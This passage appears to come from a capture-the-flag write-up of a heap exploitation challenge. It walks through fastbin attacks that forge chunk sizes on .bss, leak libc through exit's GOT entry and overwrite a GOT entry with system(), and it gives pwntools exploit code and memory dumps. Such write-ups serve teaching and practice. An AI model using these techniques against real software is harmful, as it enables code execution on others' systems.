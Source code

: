 In above code I am setting the `counter` value to be `0x21` so that we can do a `fastbin-attack` to change a `cake` pointer on .bss to GOT address. That will allow us to leak the address of GOT function's address and effectively leaking `libc_base`. After enough `wait`ing I start doing a typical `fastbin-attack`. As in previous code I had freed 0th `cake` twice, first I change the 0th `cakes` free-list pointer to address of first `cake` pointer on .bss - 0x10. So that on fourth malloc call I can change the first `cake` pointer to `0x603088` (*exit's got address*). Now we can `inspect` 0th `cake` to leak `libc_base`, cool!  

Here I have put a `0x21` in the  `name` of newly allocated cake chunk on .bss . I did that so that I dont need to make `counter` `0x21` repeatedly.  

I have also specified `/bin/sh\x00`, not important right now but you know where I will use it at the end ;)  
After doing the libc leak our .bss looks like below.  
```
0x6030e0:	0x0000000000cacaca	0x0000000000000022
0x6030f0:	0x0000000000603088	0x0000000000000021
0x603100:	0x0000564b5116f060	0x0000564b5116f080
0x603110:	0x0000564b5116f020	0x0000564b5116f040
0x603120:	0x0000564b5116f020	0x00000000006030f0
```

```python
#############
#gdb.attach(r)
serve(3)
serve(4)
serve(3)

make("aaaa", 0x6030f0) #8 #customer number -0x8
make("bbbb", 0x6030f8) #9
make("aaaa", 0x31313131) #10
#gdb.attach(r)
make(p64(0x6030f0), 0x21) #11
```
In the code above I am doing another `fastbin-attack` and this time it is to create another `0x21` in the .bss just after our previous `0x21`. This is done because I want to exploit our `third-bug`. It will get more clear in next part of the exploit.  
For now below is the .bss dump after all the actions above.  
```
0x6030e0:	0x0000556ae9d4fc25	0x0000000000000022
0x6030f0:	0x0000000000603088	0x0000000000000021
0x603100:	0x0000000000000021	0x00000000006030f0
0x603110:	0x0000556ab7d90020	0x0000556ab7d90040
0x603120:	0x0000556ab7d90020	0x00000000006030f0
0x603130:	0x0000556ab7d90080	0x0000556ab7d90020
0x603140:	0x0000556ab7d90080	0x0000000000603100
```

```python
#############
serve(9)
serve(10)
serve(9)
serve(10)
#############

make("aaaa", 0x6030f8)  #customer number -0x8
make("bbbb", 0x6030f0)
make("aaaa", 0x31313131)
make(p64(0x0), 0x0)
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
make(p64(0x603018), system_addr)
###################
r.interactive()
```